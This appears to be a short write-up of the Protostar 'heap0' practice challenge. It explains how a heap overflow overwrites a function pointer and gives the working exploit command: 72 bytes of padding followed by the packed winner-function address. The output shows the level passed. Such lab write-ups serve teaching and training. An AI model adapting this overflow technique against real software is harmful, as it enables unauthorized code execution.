

**Heap0**

This is a simple heap-overflow, we need to find fp in memory and overwrite it's value to winner's.



We see a crash on 0x44444444 (DDDD), we need to insert 72 a before eip.
Now, using struct we can pack the winner function address after the buffer.

```diff
user@protostar:/opt/protostar/bin$ readelf -s heap0 | grep winner
    55: 08048464    20 FUNC    GLOBAL DEFAULT   14 winner
    63: 08048478    20 FUNC    GLOBAL DEFAULT   14 nowinner
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "from struct import pack;print 'a'*72 + pack('<I', 0x08048464)")
data is at 0x804a008, fp is at 0x804a050
level passed
```